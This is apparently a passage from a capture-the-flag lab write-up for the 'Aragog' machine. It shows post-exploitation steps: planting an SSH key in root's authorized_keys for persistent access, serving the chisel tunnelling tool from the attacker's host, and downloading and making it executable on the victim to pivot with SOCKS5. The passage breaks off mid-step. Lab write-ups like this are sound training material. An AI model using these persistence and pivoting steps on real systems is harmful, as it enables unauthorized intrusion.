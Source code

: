 in order to copy + paste and remove the spaces between each line

```bash
❯ cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip
```
now we have to paste it in /root/.ssh on (hagrid98) machine 

```bash
bash-5.0# cd /root/.ssh/
bash-5.0# ls
bash-5.0# nano authorized_keys
```
paste it 
and let's verify if it works
from our machine let's use ssh
```bash
❯ ssh root@192.168.100.65
Linux Aragog 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@Aragog:~# 
```


now we have to use chisel in order to create a tunneling to use the tools that we have in our own machine 
such as Nmap and to scan ports such as 80 and 22 that we saw them open 

first of all we need to get chisel from [github](https://github.com/jpillora/chisel/releases/tag/v1.8.1)
save it in the directory download and share it using a server with python3 


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

from the machine that we obtained root before we have to wget it and give it permissions of execution.
```bash
bash-5.0# wget 192.168.100.53:80/chisel.sh
--2023-04-21 22:04:56--  http://192.168.100.53/chisel.sh
Connecting to 192.168.100.53:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3354732 (3.2M) [text/x-sh]
Saving to: 'chisel.sh'

chisel.sh                       100%[====================================================>]   3.20M  --.-KB/s    in 0.04s   

2023-04-21 22:04:56 (73.7 MB/s) - 'chisel.sh' saved [3354732/3354732]

bash-5.0# ls
chisel.sh
bash-5.0# chmd^C
bash-5.0# chmod +x chisel.sh 
```
now we have to execute from our machine using a server mode and sock5 connection in order to visualize all ports for example 
